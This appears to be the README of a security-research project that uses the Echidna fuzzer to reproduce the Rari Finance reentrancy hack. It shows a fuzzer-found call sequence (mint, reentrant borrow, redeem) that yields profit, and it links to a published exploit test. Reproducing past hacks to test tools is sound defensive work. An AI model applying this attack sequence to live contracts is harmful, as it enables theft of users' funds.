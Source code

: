 # Reproduction of Rari Finance hack

## References
- https://twitter.com/BlockSecTeam/status/1520350965274386433
- https://github.com/SunWeb3Sec/DeFiHackLabs/blob/c4564f5ad21783cb81969540b57b07dd12e53b2a/src/test/Rari_exp.t.sol

## Result
```
testProfit(): failed!💥
  Call sequence:
    setReentrancyEnabled(true)
    mint(5,10089325332519370949262917519849428342404732088146691233195543578618300570336)
    setReentrancyCallback(4)
    borrow(2,1164710473815707741)
    redeem(2,995200615491)
    testProfit()

Event sequence:
    Panic(1): Using assert
    Debug(«account0Profit», 0) from: 0xa329c0648769a73afac7f9381e08fb43dbea72
    Debug(«account1Profit», 1002263350696681541) from: 0xa329c0648769a73afac7f9381e08fb43dbea72
    Debug(«account2Profit», 0) from: 0xa329c0648769a73afac7f9381e08fb43dbea72

```

## Screenshot
![rari-hack-result](https://github.com/rappie/echidna-rari-hack/assets/1430820/374c2c83-b33a-4099-b6f6-513e281df33c)
